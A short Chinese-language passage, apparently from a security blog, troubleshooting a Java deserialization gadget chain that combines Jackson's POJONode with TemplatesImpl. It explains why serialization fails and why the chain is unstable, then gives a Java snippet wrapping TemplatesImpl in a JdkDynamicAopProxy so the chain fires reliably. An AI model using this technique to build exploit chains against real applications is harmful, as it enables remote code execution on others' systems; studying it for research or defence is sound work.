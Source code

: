 1、序列化过程中报错

![image-20231109165415125](assets/1701668724-d4b641525291fb5b94ee423fd906e649.jpg)

原因：在`ObjectOuptputStream#writeObject0`方法中，如果序列化的类实现了`writeReplace()`方法，将会在序列化过程中调用它进行检查抛出异常中止序列化，我们发现在 BaseJsonNode 类中实现了这个方法；

解决：序列化时只要不经过 `BaseJsonNode#writeReplace`方法就行（我们可以重写该方法或在父类中删除该方法）

2、反序列化过程中报错

![image-20231109170125568](assets/1701668724-ddfd34726c7dafa6a730a1e182d1b4c4.jpg)

原因：反射 `getDeclaredMethods` 获取到方法的顺序是不确定的，最终导致执行相关 getter 方法的顺序也是不确定的，造成反序列化链不稳定；当 TemplatesImpl 类的 `getStylesheetDOM()` 方法先于 `getOutputProperties()` 方法执行时就会导致空指针异常从而导致调用链报错中断，导致 exp 利用失败。

解决：利用 JdkDynamicAopProxy 类进行封装使链子稳定触发，这里参考文章：[关于 java 反序列化中 jackson 链子不稳定问题](https://pankas.top/2023/10/04/%E5%85%B3%E4%BA%8Ejava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADjackson%E9%93%BE%E5%AD%90%E4%B8%8D%E7%A8%B3%E5%AE%9A%E9%97%AE%E9%A2%98/)：

```java
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templatesImpl);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
```
